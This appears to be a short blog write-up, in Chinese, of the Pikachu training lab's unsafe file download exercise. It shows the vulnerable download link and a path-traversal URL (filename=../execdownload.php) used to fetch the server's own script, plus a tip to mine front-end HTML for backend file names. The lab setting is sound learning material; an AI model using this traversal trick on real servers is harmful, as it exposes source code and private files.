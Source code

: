 ```yaml
---
layout: post
title: "Pickachu 不安全的文件下载"
description: ""
date: 2023-07-11
categories:
  - Pickachu_Lab
  - Pickachu_Unsafe_File_Download
author: ""
tags: ['Pickachu_Lab', 'Unsafe_File_Download']
---
```




# Pickachu 不安全的文件下载
###### tags: `Pickachu`




```
<a href="execdownload.php?filename=ns.png">史蒂夫.纳什</a>

```


```
<img src="download/ns.png">
```


可以知道預設是去下一層的download資料夾拿到 ns.png



於是改成下載自己本身的 execdownload.php

```
http://pika/vul/unsafedownload/execdownload.php?filename=../execdownload.php
```


可以多翻翻前端的html 找找看後端的檔案 就不用猜名子了。